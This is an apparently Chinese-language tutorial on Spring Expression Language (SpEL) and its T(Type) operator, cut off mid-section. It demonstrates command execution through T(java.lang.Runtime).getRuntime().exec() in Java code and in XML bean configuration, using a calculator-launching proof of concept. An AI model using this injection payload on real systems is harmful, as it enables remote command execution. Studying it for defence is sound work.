 ![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409101440057.png)
### 类类型表达式T(Type)  
在`SpEL`表达式中，使用`T(Type)`运算符会调用类的作用域和方法。换句话说，就是可以通过该类类型表达式来操作类。  
使用`T(Type)`来表示`java.lang.Class`实例。Type必须是类全限定名，但`java.lang`包除外，因为`SpEL`已经内置了该包，即该包下的类可以不指定具体的包名；使用类类型表达式还可以进行访问类静态方法和类静态字段。  
	`Java.lang.Runtime`这个包是包含于`java.lang`的包的，所以如果能调用`Runtime`就可以进行命令执行  
在XML配置文件中的使用示例，要调用`java.lang.Math`来获取`0~1`的随机数  
```xml  
&lt;property name=&#34;random&#34; value=&#34;#{T(java.lang.Math).random()}&#34;/&gt;  
```  
`Expression`中使用示例  
```java  
ExpressionParser parser = new SpelExpressionParser();  
// java.lang 包类访问  
Class&lt;String&gt; result1 = parser.parseExpression(&#34;T(String)&#34;).getValue(Class.class);  
System.out.println(result1);  
//其他包类访问  
String expression2 = &#34;T(java.lang.Runtime).getRuntime().exec(&#39;open /Applications/Calculator.app&#39;)&#34;;  
Class&lt;Object&gt; result2 = parser.parseExpression(expression2).getValue(Class.class);  
System.out.println(result2);  
//类静态字段访问  
int result3 = parser.parseExpression(&#34;T(Integer).MAX_VALUE&#34;).getValue(int.class);  
System.out.println(result3);  
//类静态方法调用  
int result4 = parser.parseExpression(&#34;T(Integer).parseInt(&#39;1&#39;)&#34;).getValue(int.class);  
System.out.println(result4);  
```  
#### Demo  
在前面字面值的`Demo`中修改`Demo.xml`即可  
```xml  
&lt;?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34;?&gt;    
&lt;beans xmlns=&#34;http://www.springframework.org/schema/beans&#34;    
       xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;    
       xsi:schemaLocation=&#34;http://www.springframework.org/schema/beans    
 http://www.springframework.org/schema/beans/spring-beans-3.0.xsd &#34;&gt;    
    
    &lt;bean id=&#34;helloWorld&#34; class=&#34;org.example.springspel.pojo.HelloWorld&#34;&gt;    
        &lt;property name=&#34;message&#34; value=&#34;#{&#39;Hello World&#39;} is #{T(java.lang.Math).random()}&#34; /&gt;    
    &lt;/bean&gt;&lt;/beans&gt;  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409101454946.png)
#### 恶意利用---弹计算器  
修改value中的类类型表达式的类为`Runtime`并调用其命令执行方法即可  
```xml  
&lt;?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34;?&gt;    
&lt;beans xmlns=&#34;http://www.springframework.org/schema/beans&#34;    
       xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;    
       xsi:schemaLocation=&#34;http://www.springframework.org/schema/beans    
 http://www.springframework.org/schema/beans/spring-beans-3.0.xsd &#34;&gt;    
    
    &lt;bean id=&#34;helloWorld&#34; class=&#34;org.example.springspel.pojo.HelloWorld&#34;&gt;    
        &lt;property name=&#34;message&#34; value=&#34;#{&#39;Hello World&#39;} is #{T(java.lang.Runtime).getRuntime().exec(&#39;open -a Calculator&#39;)}&#34; /&gt;    
    &lt;/bean&gt;&lt;/beans&gt;  
```  
## 0x02 SpEL用法  
SpEL的用法有三种形式，一种是在注解`@Value`中；一种是XML配置；最后一种是在代码块中使用`Expression`  
前面的就是以XML配置为例对`SpEL`表达式的用法进行的说明，而注解`@Value`的用法例子如下  
```java  
```
